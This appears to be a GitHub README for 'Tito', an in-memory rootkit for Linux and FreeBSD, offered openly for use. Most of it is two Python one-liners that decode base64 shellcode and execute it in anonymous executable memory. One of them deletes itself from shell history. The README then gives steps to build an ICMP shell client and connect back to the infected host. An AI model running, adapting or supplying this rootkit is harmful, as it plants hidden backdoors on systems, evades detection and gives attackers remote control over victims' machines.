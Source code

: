 # Tito
An In-Memory Rootkit For Linux

<h2>From Tito to Stalin:</h2>

"Stop sending people to kill me. We’ve already captured five of them, one of them with a bomb and another with a rifle. If you don’t stop sending killers, I’ll send one to Moscow, and I won’t have to send a second."

You can run the entire rootkit from the Linux command-line like so:

```
python3 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp9////0iNBe////9Iu6ajGtSlB5bkSDFYJ0gt+P///+L07hs1tsxpuZfOo4OE8VjEgs6OeYD7VX75pqMa+81o+4GJ03LnlnW5rfXrX5jpKuDUiJE1vdZv8uTw9E6KzzzO66OjGtSlB5bk"; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("... and I won’t have to send a second."); shell_func()' && history -d $(history | awk 'END { print $1 }')
```

With FreeBSD, it will depend on the version of python installed and if history is enabled. If history is not enabled and you have python3.11 you can just use this:

```
python3.11 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp+P///0iNBe////9Iu67h2fdth+YDSDFYJ0gt+P///+L05tALH0+H5gOBibaaCKiWa53Sq9gZ7pJsgaiKvyjLqi7Y0ffEQu6Va8rhhqU6z2/l5tAZv+5P3Qyr4dn3bYfmAw=="; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("...and I will not have to send a second."); shell_func()' 2>/dev/null
``` 

From there you may go into the ISHELL-v0.3 folder and type 'make linux' or 'make bsd' to build ish. Then you may run ish with the ip of the device the rootkit was ran on to connect.

Currently tested on x86_64 Debian Trixie and FreeBSD 14.1
